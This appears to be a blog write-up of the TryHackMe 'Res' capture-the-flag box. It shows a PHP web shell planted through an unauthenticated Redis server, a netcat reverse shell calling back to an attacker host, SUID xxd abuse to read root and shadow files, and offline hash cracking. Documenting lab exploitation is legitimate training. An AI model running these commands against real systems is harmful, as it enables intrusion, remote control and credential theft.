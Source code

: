 ```yaml
---
layout: post
title: THM RES  writeup
excerpt_separator: <!--more-->
---
```

<img src="/img/0.head.png">
<!--more→
<p></p>
<a href="https://tryhackme.com/room/res" target="_blank" > Click here to access this box on tryHackMe.com</a>
<hr>


<p>Enumerating  ports with an NMAP Scan.</p>
<img src="/img/res/1.nmap-scan-1.png">

<p>Only one port shows to be open. Let’s enumerate it further for version,service and os detection. </p>
<img src="/img/res/2.nmap-scan-2.png">

<p>Now let's check all 65k ports with nmap.</p>
<img src="/img/res/">


<p>We only have two open ports. Port 80 running Apache and port 6379 running Redis db. version 6.0.7</p>
<img src="/img/res/4.nmap-scan-2.png">

<p>Navigating in a web browser to port 80 we find the default Apache web page. Let’s quickly check the source code, start up gobuster. </p>
<img src="/img/res/3.defult-apache-page.png">

<p>Nothing of interest in the default web page’s source code. Let’s get gobuster brute forcing sub directories</p>
<img src="/img/res/5.gobuster-start.png">

<p>while we wait on gobuster, let’s do some research on the Redis 6.0.7 db </p>
<img src="/img/res/">

<p>After installing the redis-server on my local machine and enumerating the Redis db I discovered I could connect to the db via shell with no authentication. I also found a possible username vianka by running the info command  </p>
<img src="/img/res/6.Redis-db-enum.png">


<p>Since ssh isn’t open we’re going to need a webshell.</p>
<p> here’s a link to an article about this https://book.hacktricks.xyz/pentesting/6379-pentesting-redis  
<img src="/img/res/7.hacktricks-webshell.png">

<p>I assumed the Apache was serving in the default directories due to the default web page I followed along with the post to test is this was vulnerable   </p>
<p>config set dir /var/www/html</p>
<p>config set dbfilename shell.php</p>
<p> set test "<?php system($_GET['cmd']);?>"</p>

<img src="/img/res/8.redis-commands-test-php.png">

<p>Navigating to <host ip> <host ip>/ redis.php  we can confirm the php is working. Now we need to upload a php reverse shell payload</p>
<img src="/img/res/9.php-test-payload.png">

<p>Let’s setup a listener with netcat on our local machine </p>
<img src="/img/res/10.setup-listner.png">

<p>Now change test from "<?php phpinfo(); ?>" to  "<?php system($_GET['cmd']);?>" using the set command </p>
<p> set test "<?php system($_GET['cmd']);?>" </p>
<p> now we can issue command injection in the web browser</p>
<p>http://[host]/shell.php?cmd=nc [attack machine] [port] -e /bin/sh</p>





<p>Now we have a shell on the host</p>
<img src="/img/res/16.first-shell.png">




<p>Now we have a shell on the host</p>
<img src="/img/res/16.first-shell.png">

<p>Let’s cat the user.txt file and begin eumurnating for a privilege escalation </p>
<img src="/img/res/17.cat.user.txt.png">



<p>If you run linpease there will find the xxd binary with SUID set. Let’s check GTFObins </p>
<img src="/img/res/19.gtfo.bins.png">

<p>here's how I abused the xxd binary:  </p>
<p>LFILE=/root/root.txt  </p>
<p> usr/bin/xxd "$LFILE" | xxd -r usr/bin/xxd "$LFILE" | xxd -r </p>
<img src="/img/res/18.root.txt.png">

<p>To complete the box we still need the local users password. Let’s abuse the xxd binary so we read the shadow file. Copy the users hash and try and crack it offline</p>
<img src="/img/res/20.user-hash.png">

<p>Here I used a hashcat with the rockyou password list, set the mode to 1800 and hashcat cracked the password in 5 seconds. Now we can complete this box with the user password.   </p>
<img src="/img/res/22.hashcat.png">
